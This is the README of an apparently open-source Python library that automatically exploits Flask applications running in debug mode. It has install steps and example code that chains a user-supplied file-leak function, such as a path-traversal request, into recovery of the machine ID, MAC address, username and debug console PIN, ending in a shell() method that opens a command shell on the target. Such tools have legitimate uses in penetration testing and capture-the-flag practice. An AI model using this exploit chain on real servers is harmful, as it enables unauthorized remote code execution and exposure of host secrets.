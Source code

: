 # Wconsole Extractor

## Description

Wconsole Extractor is a library which allows to automatically exploit a flask debug mode server. You just need to write a file leak function, pass it to the class ``WConsoleExtractor`` constructor and you can access to all the elements related to the debug mode.

## Installation

```
git clone https://github.com/Ruulian/wconsole_extractor.git
cd wconsole_extractor
pip3 install .
```

## Requirements

To use this library the following requirements need to be satisfied:
- Having a leak function written in Python 3 which takes a filename as parameter and returns the content
- Target operating system is Linux

## Usage

```py
from wconsole_extractor import WConsoleExtractor
import requests

def leak_file(filename) -> str:
    r = requests.get(f"http://localhost/renderfile?path={filename}")
    return r.text

extractor = WConsoleExtractor(
    target="http://localhost",
    leak_function=leak_file
)
```

You have now instanciated the ``WConsoleExtractor`` class, here is what you can access:
```py
# Properties
extractor.base_url             # => http://localhost
extractor.class_name           # => Flask
extractor.machine_id           # => Machine id needed in private_bits
extractor.modname              # => flask.app
extractor.pin_code             # => debug console PIN CODE
extractor.private_bits         # => [leaked_uuid_get_node, leaked_machine_id]
extractor.probably_public_bits # => [username, modname, class_name, path_to_package]
extractor.python_version       # Python version running on target
extractor.target               # The target specified
extractor.token                # The token used to run a command in the debug console
extractor.username             # The username which probably launched the flask application
extractor.uuidnode             # The int mac address of the target host

# Methods
extractor.shell()              # Get a shell :)
```